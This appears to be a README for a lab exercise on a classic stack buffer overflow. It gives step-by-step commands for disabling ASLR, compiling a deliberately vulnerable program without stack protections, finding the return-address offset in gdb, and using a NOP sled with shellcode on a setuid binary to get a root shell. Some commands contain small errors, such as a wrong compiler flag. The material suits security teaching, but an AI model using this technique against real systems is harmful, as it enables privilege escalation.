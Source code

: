## Basic buffer overflow example.

The buffer is overflown enough to overwrite the value of the
return address which is what eip will be assigned to call as
the next instruction to execute once the function returns.

This is possible since the strcpy to the buffer occurs without
a size check.

Overwriting the return address allows us to assign eip a NOP in
the said buffer which will lead to shell code execution.

Performing this exploit with a non user but u+s (setuid) will
allow us elevate to root.

1. Test ALSR is disabled:
   * See ../../common/README.md on esp.c
2. If not, disable ALSR and re-test:
   * echo 0 > /proc/sys/kernel/randomize_va_space
3. Compile test vulnerable program: 
   * gcc -g -z execstack -fno-stack-protection -o bo1 bo1.c
4. Test with no overflow: 
   * ./bo1 A
5. Test with overflow: 
   * ./bo1 $(cat e1)
   * This should segfault
6. Test we can overwrite return address value using gdb: 
   * cat e2
   * gdb ./bo1
   * break 10
   * r $(cat e2)
   * info registers
   * x/40x $esp 
   * The bottom of stack ($ebp) should contain 4321 
(we can overwrite $eip !!!)
7. Run exploit and select NOP address to replace in exploit file 
using gdb:
   * cat e3 (take note of the NOP sled)
   * gdb ./bo1
   * break 10
   * r $(cat e3)
   * info registers
   * x/40x $esp
   * Select an address in the middle x90 (NOP)
8. Update exploit b3 python script with chosen address (variable 
eip should be your chosen NOP)
9. Run exploit and get shell from gdb (no root since we run gdb as non 
root user):
    * gdb ./bo1
    * r $(cat e4) 
10. Setuid and run without debugger:
    * sudo chown root bo1
    * sudo chmod u+s bo1
    * gdb ./bo1 $(cat e4)
    * id (should be root) 
11. If exploit failed, it's because environment variables are on the 
stack and offset is wrong (different) from when we ran gdb.  Play with 
address in e4 with hexedit adding or removing 50 or 20 at a time until 
it works. A more resiliant method is to run gdb and non gdb exploits with 
an empty envionment like so:
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 gdb ./bo1 
(remember unset env COLUMNS and unset env LINES)
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 ./vuln $(cat e4)
